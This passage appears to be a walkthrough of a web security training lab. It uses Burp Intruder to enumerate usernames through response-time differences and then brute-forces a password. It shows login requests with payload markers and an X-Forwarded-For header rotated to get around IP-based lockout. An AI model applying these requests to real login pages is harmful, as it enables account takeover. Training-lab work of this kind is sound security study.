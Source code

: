 ```
POST /login HTTP/2
Host: 0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Cookie: session=T2uFGlgC9oNUAQWuXfp9GFgVSg0IPDf2
Content-Length: 796
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-For: 192.168.10.§1§

username=§&password=aaaaaaaaaaaaaaaaaaaa...[redacted]...aaaaaaaaaaaa
```

Notice two `§`signs in the username field and IP last octet now go to the payload section and for Payload Set `1` select the Payload Type to Number and set the number range like this
```
From: 1
To: 255
Step: 1
```

and set the `Max fraction digit` to `0` and leave everything else as it is and select `Payload Set` to `2` and select `Payload Type` to `Simple List`. Click the Load button and select the username list given on lab and click OK. The Payload Type `1` is for the IP Address field in our intruder and the Payload Type `2` field is for the username knowing all that just click the `Start Attack` button and wait to finish the attack. After the attack finishes Click on the `Columns` top drop-down menu and tick mark the `Response Completed` and `Response received`. This will add that column and we can see which requests get much time delay then we can just click on the field and they will arrange the order according to that and using that we can see which requests get a higher time delay so we can get the valid username.

Now we can brute force that user password and our request look like this now

```
POST /login HTTP/2
Host: 0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Cookie: session=T2uFGlgC9oNUAQWuXfp9GFgVSg0IPDf2
Content-Length: 791
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-For: 192.168.10.§80§

username=ar&password=§§
```
